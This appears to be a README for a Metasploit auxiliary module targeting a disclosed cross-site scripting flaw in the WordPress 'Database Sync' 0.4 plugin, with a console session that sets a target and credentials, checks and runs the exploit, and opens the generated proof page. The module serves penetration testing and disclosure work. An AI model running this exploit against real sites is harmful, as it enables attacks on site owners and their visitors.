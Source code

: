#### Add Wordpress Plugin Database Sync XSS Vulnerability.

  Application: Wordpress Plugin 'Database Sync' 0.4
  Homepage: https://wordpress.org/plugins/database-sync
  Source Code: https://downloads.wordpress.org/plugin/database-sync.0.4.zip
  References: https://wpvulndb.com/vulnerabilities/8127
  Active Install: +1.000

#### Vulnerable packages*
        
  0.4

#### Module

  [wp_database_sync_xss_scanner.rb](https://github.com/espreto/wpsploit/blob/master/modules/auxiliary/scanner/http/wordpress/wp_database_sync_xss_scanner.rb)
  
#### Usage:

##### Linux (Ubuntu 14.04.2 LTS):
```
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf>  use auxiliary/scanner/http/wp_database_sync_xss_scanner 
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  show options 

Module options (auxiliary/scanner/http/wp_database_sync_xss_scanner):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads
   VHOST                       no        HTTP server virtual host
   WP_PASS                     no        A valid password
   WP_USER                     no        A valid username

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  info

       Name: WordPress Database Sync XSS Scanner
     Module: auxiliary/scanner/http/wp_database_sync_xss_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2015-08-04

Provided by:
  Morten Nørtoft, Kenneth Jepsen & Mikkel Vej
  Roberto Soares Espreto <robertoespreto@gmail.com>

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target address range or CIDR identifier
  RPORT      80               yes       The target port
  TARGETURI  /                yes       The base path to the wordpress application
  THREADS    1                yes       The number of concurrent threads
  VHOST                       no        HTTP server virtual host
  WP_PASS                     no        A valid password
  WP_USER                     no        A valid username

Description:
  This module attempts to exploit an Cross-Site Scripting in Database 
  Sync Plugin for Wordpress, version 0.4 and likely prior in order if 
  the instance is vulnerable.

References:
  https://wpvulndb.com/vulnerabilities/8127
  https://packetstormsecurity.com/files/132907/

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set RHOSTS 10.10.10.20
RHOSTS => 10.10.10.20
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set WP_USER espreto
WP_USER => espreto
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set WP_PASS R@x0rP@55
WP_PASS => R@x0rP@55
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  check
[*] 10.10.10.20:80 - The target appears to be vulnerable.
[*] Checked 1 of 1 hosts (100% complete)
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  run

[+] 10.10.10.20:80 - Vulnerable to Cross-Site Scripting the Database Sync 0.4 plugin for Wordpress
[+] Save in: /home/espreto/.msf4/local/script.html
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner) firefox /home/espreto/.msf4/local/script.html
```
This will open the browser:

![XSS](../images/wp_database_sync_xss_scanner.png)
